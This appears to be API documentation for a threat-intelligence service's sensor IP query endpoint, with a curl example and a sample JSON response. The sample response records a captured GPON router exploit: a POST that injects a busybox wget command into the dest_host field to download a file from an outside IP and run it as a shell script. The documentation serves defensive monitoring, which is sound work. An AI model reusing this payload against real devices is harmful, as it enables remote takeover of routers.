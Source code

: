 **Note**: Querying CIDRs is available for paid subscriptions only. When using CIDR, the number of credits that will be spent correspond to the number of targets that returned results. Example: a request for a /24 (256 targets) in which only 200 targets have results, will decrement 200 credits.

*Parameters*

* target: [String] target IP address or CIDR up to /24

*Output*

```shell
curl 'https://api.binaryedge.io/v2/query/sensors/ip/xxx.xxx.xxx.xxx' -H 'X-Key:API_KEY'
```

```json
{
    "query": "xxx.xxx.xxx.xxx",
    "total": 1,
    "targets_found": 1,
    "events": [{
        "port": 443,
        "results": [{
            "target": {
                "port": 443,
                "protocol": "tcp"
            },
            "origin": {
                "ts": 1549500839739,
                "type": "sinkhole",
                "ip": "xxx.xxx.xxx.xxx",
                "rdns": "xxx.xxx.xxx.example.com"
            },
            "data": {
                "payload": "POST /GponForm/diag_Form?style/ HTTP/1.1\\r\\nUser-Agent: Hello, World\\r\\nAccept: */*\\r\\nAccept-Encoding: gzip, deflate\\r\\nContent-Type: application/x-www-form-urlencoded\\r\\n\\r\\nXWebPageName=diag&diag_action=ping&wan_conlist=0&dest_host=`busybox+wget+http://185.244.25.98/bin+-O+/tmp/gaf;sh+/tmp/gaf`&ipv=0",
                "extra": {
                    "http": {
                        "method": "POST",
                        "path": "/GponForm/diag_Form?style/",
                        "version": "1.1",
                        "headers": {
                            "user-agent": "Hello, World",
                            "accept": "*/*",
                            "accept-encoding": "gzip, deflate",
                            "content-type": "application/x-www-form-urlencoded"
                        }
                    }
                },
                "tags": ["HTTP_SCANNER"]
            },
            "@timestamp": "2019-02-07T00:54:00.422Z"
        }]
    }]
}
```

